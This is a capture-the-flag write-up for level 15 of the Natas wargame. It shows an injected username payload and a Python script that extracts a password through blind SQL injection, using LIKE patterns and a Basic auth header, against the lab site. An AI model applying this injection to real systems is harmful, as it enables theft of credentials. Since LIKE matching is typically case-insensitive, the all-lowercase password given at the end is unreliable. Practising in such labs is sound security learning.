

# Level 14 → Level 15

## Details
Username: `natas15`<br />
Password: `TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB`<br />
URL:      http://natas15.natas.labs.overthewire.org

## Solution
</img>

</img>

We can edit the query by entering the username. But no matter what we inject the only output will be an indication of the user's existence. Therefore we can try to "guess" the password, and if the output is "existing user" then it is correct.

Username: `natas16`:

</img>
</img>

We will check that the length of the password is indeed 32 characters, like all the passwords so far.<br />
Username: `natas16" and password like "________________________________";#`
</img>
</img>

Now we will compile a script that Brute Force the password, character by character:

```python
from requests import post
from string import digits, ascii_letters

URL = "http://natas15.natas.labs.overthewire.org/index.php"

# After looking at the sent packet and some trial and error, these are the essential headers:
HEADERS ={}
HEADERS["Authorization"] = \
"Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg=="
HEADERS["Content-Type"] = "application/x-www-form-urlencoded"

# The template for the blind sql injection
DATA = "username=natas16\" and password like \"________________________________\";#"

password = ""

# Brute force on the password in O(n^2) when `n` is len(digits + ascii_letters)
while(len(password) < 32):
    index = DATA.find("_")
    for char in digits + ascii_letters:
        
        # update the current char
        DATA = DATA[:index] + char + DATA[index+1:]
        response = post(url=URL, headers=HEADERS, data=DATA)
        
        if "This user exists" in response.text:
            password += char
            print("password: "+ password.ljust(32, "_"))
            break
```

Output is:

</img>


## Password for the next level:
```
trd7izrd5gatjj9pkpeuaolfejhqj32v
```
